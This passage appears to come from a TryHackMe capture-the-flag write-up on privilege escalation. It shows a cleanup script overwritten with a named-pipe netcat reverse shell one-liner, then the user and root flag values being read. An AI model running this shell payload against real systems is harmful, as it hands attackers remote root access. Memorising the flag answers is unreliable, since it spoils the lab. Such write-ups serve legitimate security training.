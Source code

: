 ```
mv cleanupscript.sh cleanupscript.bak
nano cleanupscript.sh
# On nano, put this
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 1111 >/tmp/f
chmod +x cleanupscript.sh
```

Now, once we've saved the file, we need to set up our listener and wait a couple minutes:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612164012.png)

We can now read both flags:

```
# cat /home/brian/user.txt
THM{178c31090a7e0f69560730ad21d90e70}

# cat /root/root.txt
THM{55a9d6099933f6c456ccb2711b8766e3}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612164116.png)

